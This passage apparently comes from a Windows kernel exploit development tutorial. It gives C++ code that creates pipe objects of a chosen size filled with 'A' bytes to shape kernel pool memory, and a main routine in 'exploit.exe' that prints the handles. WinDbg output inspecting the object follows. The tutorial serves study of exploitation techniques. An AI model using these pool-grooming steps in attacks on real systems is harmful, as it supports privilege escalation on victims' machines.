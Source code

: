 ```cpp
void Error(const char* name) {
    printf("%s Error: %d\n", name, GetLastError());
    exit(-1);
}

typedef struct PipeHandles {
    HANDLE read;
    HANDLE write;
} PipeHandles;

PipeHandles CreatePipeObject() {
    DWORD ALLOC_SIZE = 0x70;
    BYTE uBuffer[0x28]; // ALLOC_SIZE - HEADER_SIZE (0x48)
    HANDLE readPipe = NULL;
    HANDLE writePipe = NULL;
    DWORD resultLength;

    RtlFillMemory(uBuffer, 0x28, 0x41);
    if (!CreatePipe(&readPipe, &writePipe, NULL, sizeof(uBuffer))) {
        Error("CreatePipe");
    }
   
    if (!WriteFile(writePipe, uBuffer, sizeof(uBuffer), &resultLength, NULL)) {
        Error("WriteFile");
    }  
    return PipeHandles{ readPipe, writePipe };
}
```

After adding the function to create such pipe objects we can now create one in our main function:

```cpp
int main() {
   ...
   PipeHandles pipeHandle = CreatePipeObject();
   printf("[>] Handles: 0x%llx, 0x%llx\n", pipeHandle.read, pipeHandle.write);
   getchar();
   DebugBreak();
}
```

When we run this, we get the handles to the pipes printed out, allowing us to inspect them:

```
C:\Users\xct\Desktop>exploit.exe
[>] Handles: 0xa8, 0xac
```

```
1: kd> !handle 0xa8
PROCESS ffffe6026dceb080
    SessionId: 1  Cid: 18c0    Peb: 27c6f1f000  ParentCid: 10e8
    DirBase: 1ad85d000  ObjectTable: ffff968b91808b00  HandleCount:  43.
    Image: exploit.exe

Handle table at ffff968b91808b00 with 43 entries in use
00a8: Object: ffffe602706bda30  GrantedAccess: 00120189 Entry: ffff968b8f5ff2a0
Object: ffffe602706bda30  Type: (ffffe602696fa7a0) File
    ObjectHeader: ffffe602706bda00 (new version)
        HandleCount: 1  PointerCount: 32768
```
